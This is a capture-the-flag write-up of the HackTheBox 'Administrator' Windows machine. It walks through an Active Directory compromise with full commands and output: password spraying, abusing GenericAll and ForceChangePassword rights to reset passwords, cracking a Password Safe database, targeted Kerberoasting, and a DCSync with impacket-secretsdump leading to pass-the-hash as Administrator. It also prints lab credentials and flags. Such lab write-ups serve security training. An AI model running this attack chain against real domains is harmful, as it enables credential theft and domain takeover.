

---
<p align="center">
  
</p>

---

<div align="center">

<table>
  <tr>
    <td><b>🎯 Target</b></td>
    <td>HackTheBox - Administrator Windows</td>
  </tr>
  <tr>
    <td><b>🧑‍💻 Author</b></td>
    <td><code><br>sonyahack1</br></code></td>
  </tr>
  <tr>
    <td><b>📅 Date</b></td>
    <td>12.06.2025</td>
  </tr>
  <tr>
    <td><b>📊 Difficulty</b></td>
    <td>Medium</td>
  </tr>
  <tr>
    <td><b>📁 Category</b></td>
    <td>Active Directory / Privilege Escalation (Abuse of Active Directory Object Permissions)</td>
  </tr>
  <tr>
    <td><b>💻 Platform</b></td>
    <td>Windows</td>
  </tr>
</table>

</div>

---

## Table of Contents

- [Summary](#summary)
- [Reconnaissance](#%EF%B8%8F--reconnaissance)
- [Horizontal Privilege Escalation](#%EF%B8%8F--horizontal-privilege-escalation)
- [Entry Point](#-entry-point)
- [Vertical Privilege Escalation](#%EF%B8%8F--vertical-privilege-escalation)
- [Conclusion](#-conclusion)

---
## Summary

<div align="center">

<table>
  <tr>
    <th>Stage</th>
    <th>Info</th>
  </tr>
  <tr>
    <td><b>User Flag</b></td>
    <td><code>flag{5ca3d5276d4e812d4f10564a42829e8d}</code></td>
  </tr>
  <tr>
    <td><b>Root Flag</b></td>
    <td><code>flag{b2dc0b702700f99a14c77b6b64158c98}</code></td>
  </tr>
  <tr>
    <td><b>Techniques (MITRE ATT&CK):</b></td>
    <td>
      <ul style="text-align: left;">
        <li><code>T1595.002 - Active Scanning</code></li>
        <li><code>T1069.002 - Permission Groups Discovery</code></li>
        <li><code>T1098 - Account Manipulation</code></li>
        <li><code>T1078.002 - Valid Accounts</code></li>
        <li><code>T1558.003 - Steal or Forge Kerberos Tickets</code></li>
        <li><code>T1003.006 - OS Credential Dumping</code></li>
      </ul>
    </td>
  </tr>
</table>

</div>

---

> For initial access we are given low privilege credentials - `Olivia:ichliebedich`

> Add the machine's IP address to `/etc/hosts`:

```bash

echo '10.10.11.42 administrator.htb' | sudo tee -a /etc/hosts && ping administrator.htb

10.10.11.42 administrator.htb

PING administrator.htb (10.10.11.42) 56(84) bytes of data.
64 bytes from administrator.htb (10.10.11.42): icmp_seq=1 ttl=127 time=41.8 ms
64 bytes from administrator.htb (10.10.11.42): icmp_seq=2 ttl=127 time=41.9 ms
64 bytes from administrator.htb (10.10.11.42): icmp_seq=3 ttl=127 time=41.8 ms
^C
--- administrator.htb ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 41.758/41.804/41.897/0.065 ms

```

---
## 🕵️  Reconnaissance

> We start by scanning the target for open ports and services using `nmap`:

```bash

sudo nmap -sVC -p- -vv -T5 administrator.htb -oN Administrator_TCP_nmap

```

```bash

Discovered open port 135/tcp on 10.10.11.42
Discovered open port 21/tcp on 10.10.11.42
Discovered open port 53/tcp on 10.10.11.42
Discovered open port 445/tcp on 10.10.11.42
Discovered open port 139/tcp on 10.10.11.42
Discovered open port 3268/tcp on 10.10.11.42
Discovered open port 49664/tcp on 10.10.11.42
Discovered open port 58825/tcp on 10.10.11.42
Discovered open port 88/tcp on 10.10.11.42
Discovered open port 47001/tcp on 10.10.11.42
Discovered open port 464/tcp on 10.10.11.42
Discovered open port 58832/tcp on 10.10.11.42
Discovered open port 49666/tcp on 10.10.11.42
Discovered open port 5985/tcp on 10.10.11.42
Discovered open port 636/tcp on 10.10.11.42
Discovered open port 3269/tcp on 10.10.11.42
Discovered open port 49669/tcp on 10.10.11.42
Discovered open port 58820/tcp on 10.10.11.42
Discovered open port 58845/tcp on 10.10.11.42
Discovered open port 49667/tcp on 10.10.11.42
Discovered open port 593/tcp on 10.10.11.42
Discovered open port 49665/tcp on 10.10.11.42
Discovered open port 50559/tcp on 10.10.11.42
Discovered open port 58877/tcp on 10.10.11.42
Discovered open port 9389/tcp on 10.10.11.42
Discovered open port 389/tcp on 10.10.11.42

```
> The scan shows a large number of open ports detected. I will highlight the most important ones for research:

- `21 (FTP)` - file server;
- `53 (DNS)` - own DNS works;
- `88 (Kerberos)` - Active Directory authentication protocol;
- `135 (ms rpc)` - remote procedure call service;
- `139/445 (SMB)` - NetBIOS, NetLogon session service / file share access service;
- `389/636 (ldap/ldaps)` - AD directory protocol. Allows dumping users, groups, etc.;
- `464 (kerberos change/set password)` - kerberos password change service;
- `593 (RPC over HTPP (DCOM))` - RCP interfaces. Used in DCOM and MS Exchange services;
- `3268, 3269 (global ldap)` - extended ldap; for access to Global Catalog from client to controller;
- `5985 (winrm)` - for remote connection to the system;

> Let's define a domain controller by requesting `roodDSE` via `ldap`:

```bash

ldapsearch -x -H ldap://administrator.htb -s base | grep -i default

```
```bash

defaultNamingContext: DC=administrator,DC=htb

```
> We are dealing with the domain controller `administrator.htb`.

> I try to log in to `FTP` with the provided credentials `Olivia:ichliebedich`:

```bash

lftp -u Olivia administrator.htb
Password:
lftp Olivia@administrator.htb:~> ls
ls: Login failed: 530 User cannot log in, home directory inaccessible.
lftp Olivia@administrator.htb:~>

```

> We don't have access to `FTP` with the specified account.

> Checking the `SMB` service on `445` port:

```bash

nxc smb administrator.htb -u 'administrator.htb\Olivia' -p 'ichliebedich'

SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.42     445    DC               [+] administrator.htb\Olivia:ichliebedich

```
```bash

nxc smb administrator.htb -u 'administrator.htb\Olivia' -p 'ichliebedich' --shares

SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.42     445    DC               [+] administrator.htb\Olivia:ichliebedich
SMB         10.10.11.42     445    DC               [*] Enumerated shares
SMB         10.10.11.42     445    DC               Share           Permissions     Remark
SMB         10.10.11.42     445    DC               -----           -----------     ------
SMB         10.10.11.42     445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.42     445    DC               C$                              Default share
SMB         10.10.11.42     445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.42     445    DC               NETLOGON        READ            Logon server share
SMB         10.10.11.42     445    DC               SYSVOL          READ            Logon server share

```
> Default shares. Nothing interesting for us.

> Let's list users in `Active Directory`:

```bash

nxc smb administrator.htb -u 'administrator.htb\Olivia' -p 'ichliebedich' --rid-brute | grep -i sidtypeuser | cut -d '\' -f2 | cut -d ' ' -f1

```
```bash

Administrator
Guest
krbtgt
DC$
olivia
michael
benjamin
emily
ethan
alexander
emma

```
> We save the users to a text file and perform the `password spraying` technique of one known password `ichliebedich` on the list of users:

```bash

nxc smb administrator.htb -u 'administrator.htb\Olivia' -p 'ichliebedich' --rid-brute | grep -i sidtypeuser | cut -d '\' -f2 | cut -d ' ' -f1 > users.txt

```
```bash

nxc smb administrator.htb -u users.txt -p 'ichliebedich' --continue-on-success

SMB         10.10.11.42     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:administrator.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.42     445    DC               [-] administrator.htb\Administrator:ichliebedich STATUS_LOGON_FAILURE
SMB         10.10.11.42     445    DC               [-] administrator.htb\Guest:ichliebedich STATUS_LOGON_FAILURE
SMB         10.10.11.42     445    DC               [-] administrator.htb\krbtgt:ichliebedich STATUS_LOGON_FAILURE
SMB         10.10.11.42     445    DC               [-] administrator.htb\DC$:ichliebedich STATUS_LOGON_FAILURE
SMB         10.10.11.42     445    DC               [+] administrator.htb\olivia:ichliebedich
SMB         10.10.11.42     445    DC               [-] administrator.htb\michael:ichliebedich STATUS_LOGON_FAILURE
SMB         10.10.11.42     445    DC               [-] administrator.htb\benjamin:ichliebedich STATUS_LOGON_FAILURE
SMB         10.10.11.42     445    DC               [-] administrator.htb\emily:ichliebedich STATUS_LOGON_FAILURE
SMB         10.10.11.42     445    DC               [-] administrator.htb\ethan:ichliebedich STATUS_LOGON_FAILURE
SMB         10.10.11.42     445    DC               [-] administrator.htb\alexander:ichliebedich STATUS_LOGON_FAILURE
SMB         10.10.11.42     445    DC               [-] administrator.htb\emma:ichliebedich STATUS_LOGON_FAILURE

```

> It didn't do anything. Of all the users in the system, only one is valid for the current password - `administrator.htb\olivia:ichliebedich`.

> Let's list groups in `Active Directory`:

```bash

nxc ldap administrator.htb -u 'administrator.htb\olivia' -p 'ichliebedich' --groups

```
```bash

LDAP        10.10.11.42     389    DC               Remote Management Users                  membercount: 3
LDAP        10.10.11.42     389    DC               Share Moderators                         membercount: 1

```
> Interesting non-standard group `Share Moderators`. It has only one user. We'll use `ldap` to find out who exactly:

```bash

ldapsearch -x -H ldap://administrator.htb -D 'olivia@administrator.htb' -w 'ichliebedich' -b 'DC=administrator,DC=htb' "(cn=Share Moderators)"

```
<p align="center">
 
</p>

> `Benjamin Brown` is the only member of the `Share Moderators` group. Ok, let's remember (**this is important**).

> Let's also see who is a member of the remote connection group - `Remote Management Users` since there are 3 users there:

```bash

ldapsearch -x -H ldap://administrator.htb -D 'olivia@administrator.htb' -w 'ichliebedich' -b 'DC=administrator,DC=htb' "(cn=Remote Management Users)"

```
<p align="center">
 
</p>

> `Olivia Johnson` - member of the Remote Users group. We have her credentials, and the port `winrm (5985)` is open.

> Connecting to the system:

```bash

evil-winrm -i administrator.htb -u 'administrator.htb\Olivia' -p 'ichliebedich'

```
```bash

*Evil-WinRM* PS C:\Users\olivia\Documents> whoami
administrator\olivia
*Evil-WinRM* PS C:\Users\olivia\Documents>

```
> Let's list the local users privileges

```bash

C:\Users> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

```
> Nothing interesting.

> `Michael Williams` is also a member of the `Remote Management Users` group.

---
## 🔑↔️  Horizontal Privilege Escalation

> I'll write a simple `PowerShell` script to check `ACL` access rights of `Olivia` over `Michael`:

```powershell

$target = "CN=Michael Williams,CN=Users,DC=administrator,DC=htb"
$entry = New-Object System.DirectoryServices.DirectoryEntry("LDAP://$target")
$ACL = $entry.ObjectSecurity.Access

foreach ($ace in $ACL) {
    if ($ace.IdentityReference -eq "administrator\olivia") {
        $ace
    }
}

```
> we use a script:

```bash

ActiveDirectoryRights : GenericAll
InheritanceType       : All
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : None
AccessControlType     : Allow
IdentityReference     : ADMINISTRATOR\olivia
IsInherited           : False
InheritanceFlags      : ContainerInherit
PropagationFlags      : None

```

> We have `Generic All` rights over user `Michael Williams`

---

**Note:** `Generic All` - This is full control over the object, including password reset.

---

> Resetting password for `Michael`:

```bash

*Evil-WinRM* PS C:\Users> set-localuser -name 'Michael' -Password (ConvertTo-SecureString "NewPass123!" -AsPlainText -Force)

```
> Log in as user `Michael`:

```bash

evil-winrm -i administrator.htb -u 'administrator.htb\michael' -p 'NewPass123!'

```
```bash

*Evil-WinRM* PS C:\Users\michael\Documents> whoami
administrator\michael
*Evil-WinRM* PS C:\Users\michael\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

```

> There is nothing interesting about `Michael` local privileges either. Let's use the same `PowerShell` script to check privileges over `Benjamin Brown`
> (who is a member of the `Share Moderators` group):

```bash

ActiveDirectoryRights : ExtendedRight
InheritanceType       : None
ObjectType            : 00299570-246d-11d0-a768-00aa006e0529
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : ObjectAceTypePresent
AccessControlType     : Allow
IdentityReference     : ADMINISTRATOR\michael
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None

```
> `ExtendedRight` and ObjectType - `00299570-246d-11d0-a768-00aa006e0529`.

> The official `Microsoft` specification in section `5.1.3.2.1 Control Access Rights` contains information on this `GUID`:

<p align="center">
 
</p>

> Thus we find that the user `Michael` has the privilege `User-Force-Change-Password` over the user `Benjamin`

---

**Note:** `User-Force-Change-Password` - This allows us to change the user's password without knowing the current one.

--

> Resetting password for `Benjamin Brown`:

```bash

*Evil-WinRM* PS C:\Users> set-localuser -name 'Benjamin' -Password (ConvertTo-SecureString "NewPass123!" -AsPlainText -Force)

```
> First we found out that `Benjamin` is a member of the `Share Moderators` group. He may have **permission** to log in to `FTP`:

```bash

lftp -u benjamin administrator.htb
Password:
lftp benjamin@administrator.htb:~> ls
10-05-24  09:13AM                  952 Backup.psafe3
lftp benjamin@administrator.htb:/>

```
---
## 🚪 Entry Point

> There is access to `FTP`. On the file server there is `.psafe` - the password file of the `Password Safe` program database. Download it to yourself:

```bash
lftp benjamin@administrator.htb:/> get Backup.psafe3
952 bytes transferred
lftp benjamin@administrator.htb:/> exit

```
```bash

file Backup.psafe3
Backup.psafe3: Password Safe V3 database

```

> You can't just open the file, you need a `master password`:

```bash

pwsafe Backup.psafe3

```
<p align="center">
 
</p>

> Extract the password hash via `john` and run a dictionary brute force:

```bash

pwsafe2john Backup.psafe3 | sudo tee -a pwsf_hash.txt
[sudo] password for sonyahack1:
Backu:$pwsafe$*3*4ff588b74906263ad2abba592aba35d58bcd3a57e307bf79c8479dec6b3149aa*2048*1a941c10167252410ae04b7b43753aaedb4ec63e3f18c646bb084ec4f0944050

```
```bash

john --wordlist=/usr/share/wordlists/rockyou.txt pwsf_hash.txt

tekieromucho     (Backu)

```
> We have the password for the `.psafe` file -  `tekieromucho`. Connecting to the database:

<p align="center">
 
</p>

> I see the password database of the program `Password Safe` with 3 users and their saved passwords.

> Let me remind you that the account `Emily Rodriguez` is also included in the group for remote connection - `Remote Management Users`:

<p align="center">
 
</p>

> It is quite logical to copy her password and connect to the system - `Emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb`. 

```bash

evil-winrm -i administrator.htb -u 'administrator.htb\emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'

```
```bash

*Evil-WinRM* PS C:\Users\emily\Documents> whoami
administrator\emily
*Evil-WinRM* PS C:\Users\emily\Documents>

```
> I get the first flag in the directory - `C:\Users\emily\Desktop`:

```bash

*Evil-WinRM* PS C:\Users\emily\Desktop> type user.txt
5ca3d5276d4e812d4f10564a42829e8d
*Evil-WinRM* PS C:\Users\emily\Desktop>

```
<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 User flag</b><br/>
      <code>5ca3d5276d4e812d4f10564a42829e8d</code>
    </td>
  </tr>
</table>

</div>

---
## 🔑⬆️  Vertical Privilege Escalation

> Previously I dumped the list of users into `users.txt` to perform `password spraying` technique:

```bash

cat users.txt

Administrator
Guest
krbtgt
DC$
olivia
michael
benjamin
emily
ethan
alexander
emma

```

> There is a user `Ethan`. Using the same `PowerShell` script I will check the `ACL` access rights of the user `Emily` over `Ethan`:

```bash

ActiveDirectoryRights : GenericWrite
InheritanceType       : All
ObjectType            : 00000000-0000-0000-0000-000000000000
InheritedObjectType   : 00000000-0000-0000-0000-000000000000
ObjectFlags           : None
AccessControlType     : Allow
IdentityReference     : ADMINISTRATOR\emily
IsInherited           : False
InheritanceFlags      : ContainerInherit
PropagationFlags      : None

```
> We have `Generic Write` rights over user `Ethan`.

---

**Note:** `Generic Write` - allows the user to edit some attributes of objects.

---

> I use the `T1558.003 - Kerberoasting` technique from the `Credential Access` tactic.

> To implement this technique, I will create a record in the `servicePrincipalName` attribute for the user `Ethan Hunt`.

> I will create a `.ldif` file with the content for modifying an object in the system:

```bash

dn: CN=Ethan Hunt,CN=Users,DC=administrator,DC=htb
changetype: modify
add: servicePrincipalName
servicePrincipalName: http/example.com

```
---

**Note:** The entry in `servicePrincipalName` can be anything, even a non-existent site (example.com). For further actions, this is not important.

---

> Modify the `servicePrincipalName` attribute of user `Ethan Hunt` via `ldapmodify`:

```bash

ldapmodify -H ldap://administrator.htb -D 'emily@administrator.htb' -w 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' -f spn.ldif

modifying entry "CN=Ethan Hunt,CN=Users,DC=administrator,DC=htb"

```

> Next we request a `kerberos TGS ticket` from the domain controller for this account:

```
impacket-GetUserSPNs administrator.htb/emily:'UXLCI5iETUsIBoFVTj8yQFKoHjXmb' -dc-ip 10.10.11.42 -request | grep '\$krb5tgs\$' | sudo tee -a hashes.txt

```
```bash

cat hashes.txt

$krb5tgs$23$*ethan$ADMINISTRATOR.HTB$administrator.htb/ethan*$c2dfc00140f9f7ded3d386c5402efe4a$..........

```
```bash

john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt

limpbizkit       (?)

```

> We have an account `Ethan:limpbizkit`, but it is not a member of the `Remote Management Users` group.

> I will check the access rights to the domain object `administrator.htb`, using an active session under the account `Emily`.
> I will rewrite the `PowerShell` script, previously used to analyze the `ACL` of access rights to users, now - to
> analyze access rights to the domain itself:

```powershell

$get_domainDN = (Get-ADDomain).DistinguishedName
$get_domainObject = [ADSI]"LDAP://$domainDN"
$get_ACL = $domainObject.ObjectSecurity.Access

foreach ($ace in $get_ACL) {
    if ($ace.IdentityReference -eq "administrator\ethan") {
        $ace
    }
}

```
<p align="center">
 
</p>

> We are interested in objects with their GUIDs - `1131f6ad-9c07-11d1-f79f-00c04fc2dcd2` and `1131f6aa-9c07-11d1-f79f-00c04fc2dcd2`.

> The official `Microsoft` specification in section `5.1.3.2.1 Control Access Rights` contains information on `GUID` data:

<p align="center">
 
</p>

---

**Note:** `DS-Replication-Get-Changes` and `DS-Replication-Get-Changes-All` - these privileges in total are almost like `Domain Admins`. Allows you to
query Active Directory objects via the `MS-DRSR (DRSUAPI)` replication protocol, similar to how another domain controller does it. In other words, having
these privileges, a hacker has the ability to impersonate a domain controller that other domain controllers will trust and give all the requested information.

---

> Using the `T1003.006 - DCSync` technique from the `Credential Access` tactic

---

**Note:** `DCSync` - This is a technique where an attacker with `DS-Replication-Get-Changes`, `DS-Replication-Get-Changes-All` replication rights calls a special
`DrsGetNCChanges` function in the `MS-DRSR (DRSUAPI)` protocol and requests replication data from a domain controller. The domain controller trusts the attacker
with these privileges and returns the requested data.

---

> We use the `secretsdump` script from the `impacket` suite and request all information about the `Administrator` user:

```bash

impacket-secretsdump 'administrator.htb/ethan:limpbizkit'@10.10.11.42 -just-dc-user Administrator

```
```bash

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::

```

> The domain controller having received the request, returned to us the `NTLM` hash of the `Administrator` user. Using the received hash we connect under `Administrator`:

```bash

evil-winrm -i administrator.htb -u 'administrator.htb\Administrator' -H '3dc553ce4b9fd20bd016e098d2d2fd2e'

```
```bash

*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
administrator\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents>

```
> I get the last flag in the directory - `C:\Users\Administrator\Desktop`

```bash

*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
b2dc0b702700f99a14c77b6b64158c98
*Evil-WinRM* PS C:\Users\Administrator\Desktop>

```

<div align="center">

<table>
  <tr>
    <td align="center">
      <b>🟢 Root flag</b><br/>
      <code>b2dc0b702700f99a14c77b6b64158c98</code>
    </td>
  </tr>
</table>

</div>

<p align="center">
 
</p>

---
## 🧠 Conclusion

> During the walkthrough of this machine a chain of attacks was carried out based on incorrectly configured object rights in the `Active Directory` environment. Having a low-privileged
> account `Olivia Johnson`, access to other users was gained by exploiting the `GenericAll` and `ForceChangePassword` rights, which ultimately allowed to gain access to the `FTP server`
> with the `.psafe3` password database file. Having opened this file, it was possible to extract the password from the `Emily Rodriguez` account with extended access rights with which the
> `first flag` was obtained. Then, using the `GenericWrite` rights over the `Ethan Hunt` account, the `Kerberoasting (T1558.003)` technique was implemented, which made it possible to extract
> the `Kerberos ticket` and gain access to an even more privileged account. The final stage involved performing a `DCSync (T1003.006)` attack by having the `DS-Replication-Get-Changes` and
> `DS-Replication-Get-Changes-All` rights, which allowed the `NTLM` hash of the administrator to be obtained, thereby `completely compromising the system`.

<p align="center">
 
</p>
